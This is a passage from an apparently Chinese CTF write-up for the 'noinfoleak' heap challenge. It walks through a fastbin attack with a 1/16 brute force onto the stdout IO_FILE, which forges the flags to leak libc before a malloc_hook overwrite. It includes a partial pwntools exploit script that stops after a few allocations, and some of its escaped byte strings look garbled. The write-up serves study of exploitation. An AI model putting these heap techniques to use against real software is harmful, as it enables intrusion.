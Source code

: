 可以看到我们需要往0x7f7bd8d375dd地址去fast bin attack，而与前面我们所有的main_area的fd指针chunk只差了后面两个字节，况且5dd还是固定值，所以我们有1/16的机会成功，这就是爆破IO_FILE了。所以我们修改一下该chunk：

edit(3, 'xddx45')

再次malloc，即可在IO_FILE地址处的得到一个chunk。这样我们就可以开始愉快的修改IO_write_base来泄漏了。不过还得修改一下flag的魔数，即0xfbad2883的值。

我这里选择泄漏了错位的地址，其实可以选择泄漏got表上的地址，泄漏函数地址来达到拿到libc的效果，都一样。

payload = 'A'*0x33 + p64(0xfbad1800) + p64(0x7f734fa446a3)*3

payload += 'x50'

create(0x65,payload)

后面就是常规操作了，fast bin到malloc_hook地址即可。这里就不多说了。(exp每家循环，写的不太好。

EXP

from pwn import *

p = process( './noinfoleak')

#p = remote('ctf1.linkedbyx.com',10476)

elf = ELF( './noinfoleak')

libc = ELF( './libc6.so')

context.log_level = 'debug'

def create(size,content):

p.sendlineafter( '>', '1')

p.sendlineafter( '>',str(size))

p.sendafter( '>',content)

def delete( index):

p.sendlineafter( '>', '2')

p.sendlineafter( '>',str( index))

def edit( index,content):

p.sendlineafter( '>', '3')

p.sendlineafter( '>',str( index))

p.sendafter( '>',content)

create( 0x7f, 'A'* 0x20) #0

create( 0x60, 'A'* 0x20) #1

create( 0x60, 'A') #2

delete( 0)

create( 0x60, 'A') #3

delete( 2)
